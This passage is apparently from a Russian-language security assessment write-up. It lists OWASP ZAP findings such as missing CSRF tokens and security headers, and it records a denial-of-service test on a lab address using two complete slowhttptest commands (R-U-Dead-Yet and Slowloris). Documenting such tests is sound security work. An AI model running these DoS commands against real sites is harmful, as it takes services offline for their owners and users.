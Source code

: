 3. Anti-CSRF Tokens Check (<form action="/login" method="post">))
4. Content Security Policy (CSP) Header Not Set
5. X-Frame-Options header is not included in the HTTP response to protect against 'ClickJacking' attacks.
6. Feature Policy Header Not Set
7. X-Content-Type-Options Header Missing

![](pic/ZAPalerts.jpg)

8. Произвел DOS атаку на сайт:

    > Для пущей надёжности сразу из двух консолей запуском команд:

    > -B               slow body a.k.a R-U-Dead-Yet
    
        slowhttptest -c 65000 -B -i 10 -r 2000 -t GET -u http://10.0.0.10:8888 -x 24 -p 3
    > -H               slow headers a.k.a. Slowloris (default)

        slowhttptest -c 65000 -H -i 10 -r 2000 -t GET -u http://10.0.0.10:8888 -x 24 -p 3
    >  Сайт становится недоступен даже после запуска любой из этих атак.

![](pic/slowhttptest.jpg)

## Результаты сканирования 

### NMAP